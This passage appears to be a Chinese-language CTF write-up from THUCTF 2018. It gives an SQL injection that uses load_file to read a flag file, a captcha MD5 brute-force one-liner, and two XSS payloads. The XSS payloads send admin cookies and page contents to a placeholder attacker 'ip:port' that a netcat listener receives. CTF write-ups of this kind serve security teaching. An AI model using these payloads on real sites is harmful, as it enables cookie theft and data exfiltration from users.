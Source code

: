 也即先后访问

```URL
http://wdsimplesqlv1.thuctf2018.game.redbud.info:23334/bigcow?cowname=abc%27%20union%20select%20@@secure_file_priv,333,244,5555%23

http://wdsimplesqlv1.thuctf2018.game.redbud.info:23334/bigcow?cowname=abc%27%20union%20select%20load_file('/var/lib/mysql-files/flag')),333,244,5555%23
```

## XSS1

打开题目，下面有个类似于 `substr(md5($code),0,4) =='81b6'` 的验证码，可以用下面的脚本搞定

```sh
seq 1000000 | xargs -P16  -I'{}' sh -c "echo {} \$(echo -n {} | tr -d '\n' | openssl md5)" | grep -e '= 81b6'
```

随便填一个内容，并填入上面脚本搜到的验证码，页面会提示 `THE ADMIN WILL CHECK IT SOON...` 所以猜测是个 XSS。使用下面的脚本攻击：

```html
<script>
var i=document.createElement("link");
i.setAttribute("rel","prefetch");
i.setAttribute("href","http://ip:port/?"+document.cookie);
document.head.appendChild(i);
</script>
```

并在本机监听此端口

```sh
nc -l port
```
即可得到回传的 cookie，`flag` 就在其中

## XSS2
他说 `flag` 在 `flag.php`，访问 `http://65.52.174.189:8082/flag.php` 返回 `only admin can see the flag!`，那应该就是用 XSS 让管理员访问这个 `flag.php`，并回传。使用

```html
<iframe id="test" src="http://65.52.174.189:8082/flag.php" onload="test()"></iframe>
<script>
function test(){
  parent.window["location"].href="http://ip:port/?"+escape(document.getElementById("test").contentWindow.document.documentElement.outerHTML )
}
</script>
```
并在本机监听此端口

```sh
nc -l port
```
即可得到回传的 `flag`
